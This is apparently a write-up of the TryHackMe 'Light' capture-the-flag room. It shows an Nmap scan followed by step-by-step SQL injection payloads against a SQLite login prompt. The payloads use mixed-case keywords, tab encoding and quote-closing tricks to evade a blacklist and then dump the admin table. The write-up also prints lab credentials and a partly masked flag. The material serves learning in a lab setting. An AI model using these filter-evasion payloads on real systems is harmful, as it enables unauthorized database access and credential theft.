 ```yaml
---
title: "Light"
platform: "TryHackMe"
difficulty: "Medium"
date: 2024-02-20
tags: ["privilege-escalation", "web"]
---
```


## Info
  
![infocard](https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1737140605838)

In this CTF challenge, I faced a SQLite-based application that seemed innocuous at first—until I discovered its strict input filters. The mission: bypass blacklists, exploit SQL injection, and uncover a hidden flag. Here’s how I navigated errors, obfuscation, and SQLite’s quirks to succeed.


## Reconnaissance

The initial reconnaissance was performed using **Nmap**, revealing the following open services:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 15:22 CET                                                                                                          
Stats: 0:00:50 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan                                                                                                 
Service scan Timing: About 50.00% done; ETC: 15:23 (0:00:49 remaining)                                                                                                      
Nmap scan report for 10.10.106.14                                                                                                                                           
Host is up (0.051s latency).                                                                                                                                                
                                                                                                                                                                            
PORT     STATE SERVICE VERSION                                                                                                                                              
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)                                                                                         
| ssh-hostkey:                                                                                                                                                              
|   3072 61:c5:06:f2:4a:20:5b:cd:09:4d:72:b0:a5:aa:ce:71 (RSA)                                                                                                              
|   256 51:e0:5f:fa:81:64:d3:d9:26:24:16:ca:45:94:c2:00 (ECDSA)                                                                                                             
|_  256 77:e1:36:3b:95:9d:e0:3e:0a:56:82:b2:9d:4c:fe:1a (ED25519)                                                                                                           
1337/tcp open  waste?                                                                                                                                                       
| fingerprint-strings:                                                                                                                                                      
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe:                          
|     Welcome to the Light database!                                                                                                                                        
|     Please enter your username:                                                                                                                                           
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, RTSPRequest:                                                                                            
|     Welcome to the Light database!                                                                                                                                        
|     Please enter your username: Username not found.
|_    Please enter your username:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service
```

## **Phase 1: The Initial Struggle**

The challenge began with a network connection to the target: 

```bash
nc $ip 1337  
```  
The application greeted me with: 

```  
Welcome to the Light database!  
Please enter your username:  
```    

I entered given username **smokey** and it gives me password for User. (`smokey:vYQ5ngPpw8AdUmL`). This is database application so lets try SQL Injection Attack.  

**First Attempt**: 

```sql
' UNION SELECT null, table_name, null FROM information_schema.tables --
```  
**Response**:  
```  
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)  
```  
The error revealed that `--`, `/*`, and vertical tabs (`%0b`) were blocked. Worse, `information_schema.tables` didn’t exist—this wasn’t MySQL!  

---

## **Phase 2: Pivoting to SQLite**  

### **Obfuscation Trick #1: Mixed-Case Keywords** 

I bypassed keyword blacklists (`UNION`, `SELECT`) using mixed-case:  
```sql  
' UnIoN SeLeCt null, table_name, null FrOm information_schema.tables WhErE '1'='1  
```  
**Result**:  
```  
Error: no such table: information_schema.tables  
```  
This confirmed SQLite. Time to use its metadata tables.  

---

## **Phase 3: Bypassing Filters** 

### **Obfuscation Trick #2: Tabs Instead of Spaces**  
The app blocked spaces, so I replaced them with URL-encoded tabs (`%09`):  
```sql  
' UniOn%09SelEct%09null,name,null%09FrOm%09sqlite_master%09WhErE%09type='table'  
```  
**Result**: Syntax errors due to `%` encoding issues.  

### **Obfuscation Trick #3: Avoiding Comments**  
Since `--` was blocked, I terminated queries with `WHERE '1'='1`:  
```sql  
' UNION SELECT file FROM PRAGMA_database_list WHERE '1'='1  
```  
**Output**:  
```  
Password: /home/adrian/users.db  
```  
Bingo! The database file was `users.db`.  

---

## **Phase 4: Extracting Tables and Columns** 

### **Listing Tables**  
```sql  
' UnIoN SeLeCt name FROM sqlite_master WHERE type='table' AND '1'='1  
```  
**Result**:  
```  
Password: admintable  
```  
Later, I discovered `usertable`.  

### **Extracting Columns** 

For the `admintable`:  
```sql  
' UnIoN SeLeCt group_concat(name) FROM PRAGMA_table_info('admintable') WHERE '1'='1  
```  
**Output**:  
```  
Password: id,username,password  
```  

---

## **Phase 5: Dumping Credentials and the Flag** 

### **Admintable Exploit**  

```sql  
' UnIoN SeLeCt username || ':' || password FROM admintable WHERE '1'='1  
```  
**Result**:  
```  
Password: TryHackMeAdmin:mamZtAuMlrsEy5bp6q17  
```  
### **The Final Payload**  

To concatenate all data: 

```sql  
' UnIoN SeLeCt group_concat(username || ':' || password) FROM admintable WHERE '1'='1  
```  
**Flag Captured**:  

```  
Password: TryHackMeAdmin:mamZtAuMlrsEy5bp6q17,flag:THM{S********************O?}  
```  

---

## **Key Obfuscation Techniques**  

1. **Mixed-Case Keywords**: `UnIoN`, `SeLeCt` evaded keyword filters.  
2. **Tab Encoding**: Replaced spaces with `%09` to bypass space detection.  
3. **Avoiding Comments**: Used `WHERE '1'='1` instead of `--` or `#`.  
4. **Metadata Adaptation**: Leveraged `sqlite_master` and `PRAGMA` instead of `information_schema`.  

---

## **Why This Worked**  

- **SQLite’s Flexibility**: Its `PRAGMA` functions and `sqlite_master` table provided metadata access.  
- **Persistence**: Iterative testing and adjusting payloads based on errors.  
- **Filter Evasion**: Simple obfuscation defeated naive blacklists.  

---

## **Conclusion**  

1. **Adapt to the Database**: SQLite requires different syntax than MySQL/PostgreSQL.  
2. **Errors Are Clues**: Each failure refined my payload.  
3. **Obfuscation is Key**: Small tweaks can bypass restrictive filters.  

---
